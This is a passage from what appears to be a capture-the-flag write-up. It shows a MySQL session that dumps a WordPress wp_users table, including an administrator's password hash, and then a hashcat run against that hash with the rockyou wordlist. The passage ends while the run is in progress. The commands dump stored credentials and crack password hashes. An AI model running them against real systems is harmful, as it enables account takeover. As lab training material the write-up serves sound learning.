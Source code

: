     Database changed
    mysql> show tables;
    +-----------------------+
    | Tables_in_wp_wiki     |
    +-----------------------+
    | wp_commentmeta        |
    | wp_comments           |
    | wp_links              |
    | wp_options            |
    | wp_postmeta           |
    | wp_posts              |
    | wp_term_relationships |
    | wp_term_taxonomy      |
    | wp_termmeta           |
    | wp_terms              |
    | wp_usermeta           |
    | wp_users              |
    +-----------------------+
    12 rows in set (0.00 sec)
    
    mysql> select * from wp_users;
    +----+---------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+---------------+
    | ID | user_login    | user_pass                          | user_nicename | user_email      | user_url | user_registered     | user_activation_key | user_status | display_name  |
    +----+---------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+---------------+
    |  1 | Administrator | $P$B3FUuIdSDW0IaIc4vsjj.NzJDkiscu. | administrator | it@megacorp.com |          | 2017-12-20 23:26:04 |                     |           0 | Administrator |
    +----+---------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+---------------+
    1 row in set (0.00 sec)
    

Unfortunately, rockyou doesn’t crack the hash:

    
    
    root@kali# hashcat -m400 wp.hash /usr/share/wordlists/rockyou.txt
    hashcat (v4.1.0) starting...
    
    * Device #1: Not a native Intel OpenCL runtime. Expect massive speed loss.
                 You can use --force to override, but do not report related errors.
    No devices found/left.
    
    Started: Fri May 11 08:56:25 2018
    Stopped: Fri May 11 08:56:25 2018
    root@kali# hashcat -m400 wp.hash /usr/share/wordlists/rockyou.txt --force
    hashcat (v4.1.0) starting...
    